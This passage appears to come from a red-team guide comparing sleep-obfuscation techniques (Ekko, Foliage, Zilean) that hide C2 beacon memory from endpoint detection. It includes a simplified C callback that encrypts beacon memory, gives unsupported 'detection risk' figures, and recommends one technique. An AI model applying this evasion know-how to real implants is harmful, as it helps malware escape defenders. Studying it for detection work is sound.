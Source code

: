 **Disadvantages**:
- **ROP chains easily detected** (suspicious call stack patterns)
- VirtualProtect → SystemFunction032 → WaitForSingleObject pattern is signatured
- Detection risk: 30-35%

**Code Pattern**:
```c
// Simplified Ekko pattern
VOID CALLBACK EncryptCallback(PVOID param, BOOLEAN timerFired) {
    // Change to RW
    VirtualProtect(beaconBase, beaconSize, PAGE_READWRITE, &oldProtect);

    // Encrypt with RC4/AES
    SystemFunction032(&data, &key); // RtlEncryptMemory

    // Wait for sleep duration
    WaitForSingleObject(hTimer, sleepTime);

    // Decrypt
    SystemFunction032(&data, &key);

    // Restore RX
    VirtualProtect(beaconBase, beaconSize, PAGE_EXECUTE_READ, &oldProtect);
}
```

**Detection Issue**: Call stack during sleep shows ROP gadgets:
```
ntdll!NtContinue
ntdll!NtWaitForSingleObject
ntdll!RtlEncryptMemory
kernel32!VirtualProtect
[malicious_module]+0x1234
```

### Pattern 2: APC-based Encryption (Foliage)

**Concept**: Queue APCs to encrypt/decrypt beacon memory during sleep.

**Advantages**:
- No timer queue required
- Leverages Windows APC mechanism

**Disadvantages**:
- APC queue manipulation can be detected
- Still requires ROP or custom callback
- Detection risk: 25-30%

### Pattern 3: Zilean (RtlRegisterWait + Thread Pool) ⭐ RECOMMENDED

**Concept**: Use RtlRegisterWait with waitable timer objects to create legitimate Windows thread pool wait states. Memory is encrypted during the wait, and call stacks appear as native thread pool work.
